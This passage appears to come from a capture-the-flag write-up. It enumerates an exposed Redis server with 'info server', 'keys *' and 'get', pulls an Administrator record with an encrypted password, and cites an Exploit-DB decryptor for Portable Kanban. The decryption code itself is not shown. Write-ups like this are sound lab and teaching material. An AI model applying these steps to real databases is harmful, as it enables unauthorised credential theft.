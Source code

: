 With access to the Redis database, I was able to begin enumerating the contents. I started by listing the server information with `info server`:

```bash
# Server
redis_version:3.0.504
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:a4f7a6e86f2d60b3
redis_mode:standalone
os:Windows  
arch_bits:64
multiplexing_api:WinSock_IOCP
process_id:7904
run_id:568daded6a2f0699fa9dcc0328a75c259c4130a8
tcp_port:6379
uptime_in_seconds:18649
uptime_in_days:0
hz:10
lru_clock:8557547
config_file:C:\Program Files\Redis\redis.windows-service.conf
```

In order to retrieve sensitive information, I needed to determine the active keys within the Database through the use of `keys *`

```bash
1) "pk:ids:User"
2) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
3) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
4) "pk:ids:MetaDataClass"
```


As shown above, there was only a default user and 1 additional user account. I retrieved the `pk:urn` and retrieved the account's details through the use of the following command:

```bash
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
```

```json
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"

```

Success! I now had the administrator's encrypted password. Since I knew that it was the portable Kanban information that was being stored within the database, I searched for a decryption algorithm for Portable Kanban which led me to: <https://www.exploit-db.com/exploits/49409>.

<details></details>

The file above requires a `PortableKanban.pk3`. However, we only have the hash. In order to bypass this, I modified the code to look as follows:

<details></details>
